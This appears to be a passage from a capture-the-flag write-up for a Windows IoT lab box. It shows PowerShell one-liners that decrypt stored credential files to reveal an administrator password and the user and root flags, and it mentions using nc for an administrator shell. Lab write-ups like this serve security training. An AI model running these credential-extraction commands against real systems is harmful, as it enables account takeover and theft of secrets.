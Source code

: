 * now able to decrypt the file and got iot-admin.xml it contains some password
* `powershell.exe -c "$cred=Import-CliXml -Path C:\Data\Users\app\iot-admin.xml; $cred.GetNetworkCredential().Password"`
* password for administrator: _1nt3rn37ofTh1nGz > 
* login again and run nc > get shell with privilege administrator

<img src="/img/omni/passadmin.PNG" alt="Getting-gz" width="800" height="100">

* decrypt user.txt to get user flaf
* ` powershell.exe -c "$cred=Import-CliXml -Path C:\Data\Users\app\user.txt; $cred.GetNetworkCredential().Password"`

<img src="/img/omni/flagu.PNG.jpg" alt="Getting-gz" width="800" height="100">

* decrypt root.txt to get root flaf
* `$cred=Import-CliXml -Path root.txt; $cred.GetNetworkCredential().Password `

<img src="/img/omni/rootu.PNG.jpg" alt="Getting-gz" width="800" height="100">
  
  * We got the final flag and complete task
